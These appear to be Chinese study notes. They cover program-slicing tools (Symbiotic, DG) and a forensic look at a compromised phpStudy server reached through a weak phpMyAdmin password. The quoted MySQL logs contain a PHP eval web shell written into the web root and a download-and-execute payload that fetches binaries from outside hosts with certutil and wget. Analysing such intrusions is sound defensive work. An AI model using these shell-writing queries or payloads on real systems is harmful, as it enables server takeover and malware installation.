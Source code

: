 ## 0x01 Symbiotic

基于插桩、切片还有KLEE的程序验证[工具](https://github.com/staticafi/symbiotic)  

## 0x02 DG

其中涉及的切片工具[DG](https://github.com/mchalupa/dg)  

1. clang -c -emit-llvm source.c -o bitecode.bc  
2. ./llvm-slicer -c slicing_criterion bitecode.bc  

## 0x03 取证
https://www.freebuf.com/column/178753.html

看看IP，[定位](http://www.ip2geo.com/ipcheck.php)一下，地图上[标记一下](http://www.gpsspg.com/maps.htm)  

112.97.208.149	

LAT: 23.1167 
LON: 113.25


手法：
phpmyadmin弱密码，写shell

```mysql
#dexgp.php
C:\phpStudy\PHPTutorial\MySQL\bin\mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
		  227 Query	SHOW GLOBAL VARIABLES WHERE Variable_name="general_log_file"
		  227 Quit	
181114 22:49:37	  228 Connect	root@localhost on 
		  228 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		  228 Init DB	mysql
		  228 Query	SHOW MASTER LOGS
		  228 Quit	
181114 22:49:40	  229 Connect	root@localhost on 
		  229 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		  229 Quit	
181114 22:49:44	  230 Connect	root@localhost on 
		  230 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		  230 Query	aselect '<?php @eval($_POST[123])?>'INTO OUTFILE 'C:/www/dexgp.php'
		  230 Query	SHOW VARIABLES LIKE 'language'
		  230 Quit	
```
还有：  

```mysql
#test000.php
181113 23:16:05	  184 Connect	root@localhost on 
		  184 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		  184 Init DB	mysql
		  184 Init DB	mysql
		  184 Query	SELECT '<?php @system("certutil.exe -urlcache -split -f http://23.94.62.127/wkinstall.exe &wkinstall.exe &del wkinstall.exe&cd /tmp &&wget http://down.ctosus.ru/linux &chmod x linux &./linux ");phpinfo()?>'
		  184 Query	SHOW VARIABLES LIKE 'profiling'
		  184 Query	SHOW TABLES
		  184 Quit	
181113 23:17:03	  187 Init DB	mysql
		  187 Init DB	mysql
		  187 Query	SET global general_log_file='C:/phpStudy/PHPTutorial/WWW/test000.php'
C:\phpStudy\PHPTutorial\MySQL\bin\mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
```

百度账号：1008611客户